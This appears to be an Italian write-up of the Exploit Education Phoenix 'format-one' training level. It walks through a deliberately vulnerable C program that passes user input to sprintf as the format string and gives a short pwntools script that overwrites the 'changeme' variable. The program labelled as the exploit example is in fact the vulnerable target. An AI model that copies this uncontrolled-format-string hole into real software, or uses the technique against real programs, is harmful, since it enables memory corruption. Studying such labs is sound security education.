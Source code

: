 ### Descrizione del Codice

Il programma `format_one.c` introduce la possibilità di scrivere in aree specifiche della memoria per modificare l'esecuzione del programma.

### Funzionamento del Programma

1. Il programma legge un input dall'utente e lo memorizza in `buffer`.
2. Copia il contenuto di `buffer` in `locals.dest` usando `sprintf`.
3. Controlla se la variabile `changeme` è stata impostata al valore specifico `0x45764f6c`.

### Problema di Sicurezza

Il problema di sicurezza risiede nell'uso della funzione `sprintf` con un input controllato dall'utente senza specificare un formato, il che può causare una vulnerabilità di formato. Questo può essere sfruttato per scrivere un valore specifico nella variabile `changeme`.

### Exploit

L'exploit sfrutta la vulnerabilità di formato per scrivere il valore `0x45764f6c` nella variabile `changeme`.

### Esempio di Exploit

Il seguente esempio mostra come sfruttare la vulnerabilità:

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

  locals.changeme = 0;

  sprintf(locals.dest, buffer);

  if (locals.changeme != 0x45764f6c) {
    printf("Uh oh, 'changeme' is not the magic value, it is 0x%08x\n",
        locals.changeme);
  } else {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  }

  exit(0);
}

Questo livello è simile al precedente, tranne che dobbiamo impostare changeme a un valore specifico 0x45764f6c invece di un valore casuale.

Soluzione
# solve.py

from pwn import *

buff = ""
buff += '%32x'
buff += p64(0x45764f6c)

print(buff)

Eseguiamo:
$ python solve.py | /opt/phoenix/amd64/format-one